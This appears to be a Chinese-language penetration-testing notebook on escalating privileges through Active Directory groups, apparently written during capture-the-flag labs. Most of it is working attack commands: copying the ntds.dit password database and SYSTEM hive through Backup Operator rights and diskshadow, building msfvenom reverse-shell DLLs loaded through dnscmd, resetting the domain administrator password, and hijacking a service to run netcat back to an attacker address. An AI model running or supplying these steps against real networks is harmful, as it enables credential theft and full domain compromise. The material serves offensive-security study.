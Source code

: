 # 组提权

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges



## Backup Operator组提权

拿到Backup Operator组成员的权限可以提权：https://github.com/mpgn/BackupOperatorToDA（mac好像用不了）



也可以用https://github.com/giuliano108/SeBackupPrivilege，但是只能实现读取文件似乎。

可以读取ntds.dit，这是DC上保存所有密码哈希值的数据库。

```shell
*Evil-WinRM* PS C:\Users\svc_backup\Documents> import-module .\SeBackupPrivilegeCmdLets.dll
*Evil-WinRM* PS C:\Users\svc_backup\Documents> import-module .\SeBackupPrivilegeUtils.dll
*Evil-WinRM* PS C:\Users\svc_backup\Documents> Copy-FileSeBackupPrivilege C:\Windows\ntds\ntds.dit .
Opening input file. - The process cannot access the file because it is being used by another process. (Exception from HRESULT: 0x80070020)
At line:1 char:1
+ Copy-FileSeBackupPrivilege C:\Windows\ntds\ntds.dit .
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Copy-FileSeBackupPrivilege], Exception
    + FullyQualifiedErrorId : System.Exception,bz.OneOEight.SeBackupPrivilege.Copy_FileSeBackupPrivilege
```

如果因为它正在被使用无法读取，就需要使用diskshadow。



写一个script.txt

```shell
set context persistent nowriters
set metadata c:\windows\temp\df.cab
set verbose on
add volume c: alias someAlias
create
expose %someAlias% z:
```

非windows上需要转换一下：

```shell
unix2dos script.txt
unix2dos: converting file script.txt to DOS format...
```

上传过去之后执行：

```shell
diskshadow.exe /s .\script.txt
```

然后读取：

```shell
Copy-FileSeBackupPrivilege z:\Windows\ntds\ntds.dit  C:\Users\svc_backup\Documents\ntds.dit
```

```shell
reg.exe save hklm\system C:\Users\svc_backup\Documents\system.bak
download ntds.dit
download system.bak
```



## DnsAdmins组提权

参考：https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2

生成dll：

```shell
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.14 LPORT=39502 -f dll > shell-reverse-39502.dll
```

触发：

```shell
dnscmd  /config /serverlevelplugindll \\10.10.14.14\share\shell-reverse-39502.dll
sc.exe stop dns
sc.exe start dns
```

可以反弹shell，也可以直接修改Administrator的密码：

```shell
msfvenom -p windows/x64/exec cmd='net user administrator feng123! /domain' -f dll > da.dll
```





## AD Recycle Bin

https://petri.com/active-directory-recycle-bin/

https://blog.netwrix.com/2021/11/30/active-directory-object-recovery-recycle-bin/

这个组可以恢复被删除的对象，也可以获取被删除对象的信息。

```shell
#列出被删除的对象
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects
#获取对象的信息
Get-ADObject -filter 'ObjectGUID -eq "f0cc344d-31e0-4866-bceb-a842791ca059"' -includeDeletedObjects -Properties *

#下面的也可以
Get-ADObject -filter { SAMAccountName -eq "TempAdmin" } -includeDeletedObjects -property *
#恢复的命令没试过

Get-ADObject -Filter {displayName -eq “Peter Cetera”} -IncludeDeletedObjects | Restore-ADObject
```





## Server Operators组

可利用的有很多：

> This membership allows users to configure Domain Controllers with the following privileges:
>
> - Allow log on locally
> - Back up files and directories
> - SeBackupPrivilege and SeRestorePrivilege
> - Change the system time
> - Change the time zone
> - Force shutdown from a remote system
> - Restore files and directories
> - Shut down the system
> - control local services

control local services的利用方法，参考https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/

```shell
upload nc.exe
sc.exe config VMTools binPath="C:\Users\jorden\Documents\nc.exe -e cmd.exe 10.10.14.14 39502"
sc.exe stop VMTools
sc.exe start VMTools
```



SeBackupPrivilege and SeRestorePrivilege：可以用`robocopy /b`命令来读取敏感文件：

```shell
*Evil-WinRM* PS C:\Users\jorden\Documents> robocopy /b c:\users\administrator\desktop\ .\

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Thursday, September 21, 2023 12:14:58 AM
   Source : c:\users\administrator\desktop\
     Dest : C:\Users\jorden\Documents\

    Files : *.*

  Options : *.* /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------

	                   2	c:\users\administrator\desktop\
	*EXTRA Dir        -1	C:\Users\jorden\Documents\My Music\
	*EXTRA Dir        -1	C:\Users\jorden\Documents\My Pictures\
	*EXTRA Dir        -1	C:\Users\jorden\Documents\My Videos\
	    New File  		     488	desktop.ini
  0%
100%
	    New File  		      34	root.txt
  0%
100%

------------------------------------------------------------------------------

               Total    Copied   Skipped  Mismatch    FAILED    Extras
    Dirs :         1         0         1         0         0         3
   Files :         2         2         0         0         0         0
   Bytes :       522       522         0         0         0         0
   Times :   0:00:00   0:00:00                       0:00:00   0:00:00


   Speed :              261000 Bytes/sec.
   Speed :              14.934 MegaBytes/min.
   Ended : Thursday, September 21, 2023 12:14:58 AM

*Evil-WinRM* PS C:\Users\jorden\Documents> dir


    Directory: C:\Users\jorden\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        9/20/2023   9:18 PM             34 root.txt


*Evil-WinRM* PS C:\Users\jorden\Documents> type root.txt
07ec2722979ecfcb764532874ff9b4f8
*Evil-WinRM* PS C:\Users\jorden\Documents>
```









